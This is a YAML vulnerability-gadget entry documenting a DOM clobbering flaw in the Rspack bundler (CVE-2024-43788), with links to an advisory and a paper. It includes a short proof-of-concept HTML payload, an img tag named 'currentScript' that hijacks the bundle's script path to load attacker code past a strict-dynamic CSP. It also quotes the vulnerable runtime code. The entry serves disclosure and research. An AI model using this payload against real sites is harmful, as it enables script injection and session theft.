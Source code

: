 ```yaml
---
description: Rspack is a high performance JavaScript bundler written in Rust. It offers strong compatibility with the webpack ecosystem, allowing for seamless replacement of webpack, and provides lightning fast build speeds.
github: web-infra-dev/rspack
gadgets:
  Latest:
    cve: CVE-2024-43788
    authors:
      - github:jackfromeast
      - github:ishmeals
    tags:
      - chrome-browser
      - safari-browser
      - img-tag
      - name-attr
      - src-attr
      - strict-dynamic-csp
      - before-lib-load
    pocs:
      - description: This issue was supposed to be fixed in [v1.0.0-rc.1](https://github.com/web-infra-dev/rspack/releases/tag/v1.0.0-rc.1). However, it appears that under certain conditions, such as this [@arkark_](http://x.com/arkark_) [challenge](https://alpacahack.com/challenges/alpaca-mark), it is still possible to reproduce it in the latest version.
        code: |
          <!-- user input -->
          <img name="currentScript" src="[current-location]/assets/xss/index.js">

          <script nonce="secret" src="[current-location]/assets/libs/rspack/bundle.js"></script>
    more-info: |
      **Root Cause**

      Source: It was supposed to be in `crates/rspack_plugin_hmr/src/runtime/hot_module_replacement.js` but, I didn't found any reference to it. You can find one of the expected case which contains it [here](https://github.com/web-infra-dev/rspack/blob/621cd3b253efe7350b69eed7c14163ac2739c1b6/crates/rspack_plugin_css/webpack_css_cases_to_be_migrated/chunkFilename-fullhash/expected/webpack-5/main.js#L155).

      ```javascript
      /******/ 	/* webpack/runtime/publicPath */
      /******/ 	(() => {
      /******/ 		var scriptUrl;
      /******/ 		if (__webpack_require__.g.importScripts) scriptUrl = __webpack_require__.g.location + "";
      /******/ 		var document = __webpack_require__.g.document;
      /******/ 		if (!scriptUrl && document) {
      /******/ 			if (document.currentScript)
      /******/ 				scriptUrl = document.currentScript.src
      /******/ 			if (!scriptUrl) {
      /******/ 				var scripts = document.getElementsByTagName("script");
      /******/ 				if(scripts.length) scriptUrl = scripts[scripts.length - 1].src
      /******/ 			}
      /******/ 		}
      /******/ 		// When supporting browsers where an automatic publicPath is not supported you must specify an output.publicPath manually via configuration
      /******/ 		// or pass an empty string ("") and set the __webpack_public_path__ variable from your code to use your own logic.
      /******/ 		if (!scriptUrl) throw new Error("Automatic publicPath is not supported in this browser");
      /******/ 		scriptUrl = scriptUrl.replace(/#.*$/, "").replace(/\?.*$/, "").replace(/\/[^\/]+$/, "/");
      /******/ 		__webpack_require__.p = scriptUrl;
      /******/ 	})();
      ```
    links:
      - https://github.com/advisories/GHSA-84jw-g43v-8gjm
      - https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/rspack.md
      - https://jackfromeast.github.io/assets/DOMinoEffect.pdf
---
```

